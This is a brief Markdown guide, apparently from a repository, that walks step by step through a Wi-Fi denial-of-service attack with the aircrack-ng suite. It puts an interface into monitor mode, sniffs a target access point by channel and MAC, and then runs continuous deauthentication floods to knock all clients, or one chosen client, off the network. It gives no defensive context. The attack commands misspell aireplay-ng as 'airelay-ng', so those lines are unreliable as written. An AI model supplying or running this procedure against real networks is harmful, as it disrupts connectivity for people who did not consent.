 # Performing DoS Attack with AirCrack Toolkit

1.  Killing wireless interface blocking processes
```
airmon-ng check kill
```

2. Switching wireless interface into monitoring mode
```
airmon-ng start wlan0
```

3.  Sniffing wireless traffic on all channels
```
airodump-ng wlan0mon
```

4. Sniffing wireless traffic on selected channel (channel 1 in following example)
```
airodump-ng -c 1 wlan0mon
```

5. Sniffing wireless traffic on selected channel and selected AP MAC
```
airodump-ng -c 1 --bssid 1c:1d:86:b6:c4:e0 wlan0mon
```

6. Performing DoS attack to disconnect all clients connected to the provided Access Point (AP)
    - Run the following command in new terminal window in parallel with airodump-ng command
```
airelay-ng -0 0 -a 1c:1d:86:b6:c4:e0 wlan0mon
```

7. Performing DoS attack to disconnect selected client connected to the provided Access Point (AP)
    - Run the following command in new terminal window in parallel with airodump-ng command
```
airelay-ng -0 0 -a 1c:1d:86:b6:c4:e0 -c c2:f1:81:e6:77:f4 wlan0mon
```

